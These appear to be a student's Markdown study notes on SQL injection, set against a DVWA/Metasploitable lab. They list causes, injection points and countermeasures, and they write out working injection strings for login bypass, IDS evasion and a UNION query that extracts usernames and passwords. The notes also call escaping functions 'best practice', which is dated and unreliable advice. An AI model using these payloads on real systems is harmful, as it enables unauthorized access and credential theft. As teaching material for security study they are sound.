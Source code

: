 # SQL Injection (SLQi)

> [!NOTE] SQL Injection
> **SQL injection** refers to inputting raw SQL queries into an application to perform an unexpected action.
- We have a SQLi when it is possible to modify the syntax of the query by altering the application input
- SQLi causes
	-  missing input validation 
	- application-generated queries contains user-fed input

## SQLi countermeasures
- Programmers must take care of input sanitization 
- Programmers often rely on “automagic” methods (e.g., in PHP, magic_quotes_gpc escapes calling addslashes() ) 
- How to sanitize strongly depends on which kind of attack we want to prevent 
- Avoid manually crafted regexps 
- Best practice: use mysql_real_escape_string() 
- If a number is expected, check that the input really is a number 
- Prepared statements 
- Parametrized query (if the language supports it)

## SQLi sinks (where to inject our SQL code)
- **User Input** 
	- GET/POST parameters 
	- many client-side technologies communicate with the server through GET/POST (e.g., Flash, applet Java, AJAX)
- **HTTP Headers**
	- every HTTP header must be treated as dangerous
	- User-Agent, Referer, . . . can be maliciously altered
- **Other SQLi sinks**
	- **Cookies** 
		- after all, they are just headers . . . 
		-  . . . and they come from the client ⇒ dangerous
	- **The database itself: second order injection**
		- the input of the application is stored in the database later, the same input may be fetched from the database and used to build another query ⇒ dangerous

## Let’s try SQL Injection in Metasploitable
- Change DVWA Security to low
- ![[Pasted image 20240608174531.png]]
- ![[Pasted image 20240608174544.png]]
- Try submitting different input
- Try to insert ’ OR ’1’=’1
![[Pasted image 20240608174613.png]]

## SQLi examples
##### 1. Query
```
$q = ”SELECT id FROM users WHERE user=’”.$user.”’ AND pass=’”.$pass.”’”;
```

##### 2. sent parameters
```
$user = ”admin”;
$pass = ”’ OR ’1’=’1”;
```

##### 3. query that is really executed
```
$q = ”SELECT id FROM users WHERE user=’admin’ AND pass=’’ OR ’1’=’1’”;
```
##### 3.5 If the input were sanitized (e.g., *mysql_escape_string()*)
```
$q = ”SELECT id FROM users WHERE user=’admin’ AND pass=’\’ OR \’\’=\’’”;
```

### SQLi other examples
##### 1. choosing “blindly” the first available user
```
$pass = ”’ OR 1=1 # ”; 
$q = ”SELECT id FROM users WHERE user=’’ AND pass=’’ OR 1=1 # ’”; 
$user = ”’ OR user LIKE ’%’ #”; 
$q = ”SELECT id FROM users WHERE user=’’ OR user LIKE ’%’ #’ AND pass=’’”; 
$user = ”’ OR 1 # ”; 
$q = ”SELECT id FROM users WHERE user=’’ OR 1 #’ AND pass=’’”;
```
##### 2. choosing a known user
```
$user = ”admin’ OR 1 # ”; 
$q = ”SELECT id FROM users WHERE user=’admin’ OR 1 #’ AND pass=’’”; 
$user = ”admin’ #”; 
$q = ”SELECT id FROM users WHERE user=’admin’ #’ AND pass=’’”;
```
##### 3. IDS evasion
```
$pass = ”’ OR 5>4 OR password=’mypass”; 
$pass = ”’ OR ’vulnerability’>’server”;
```

### SQLi UNION query
- **query**
```
$q = ”SELECT id, name, price, description FROM products WHERE category=”.$_GET[’cat’];
```
- **injected code**
```
$cat=”1 UNION SELECT 1, user, 1, pass FROM users”;
```
- The **number** and **types** of the columns returned by the two SELECT must match 
	- MySQL: if **types** do not match, a cast is performed automatically
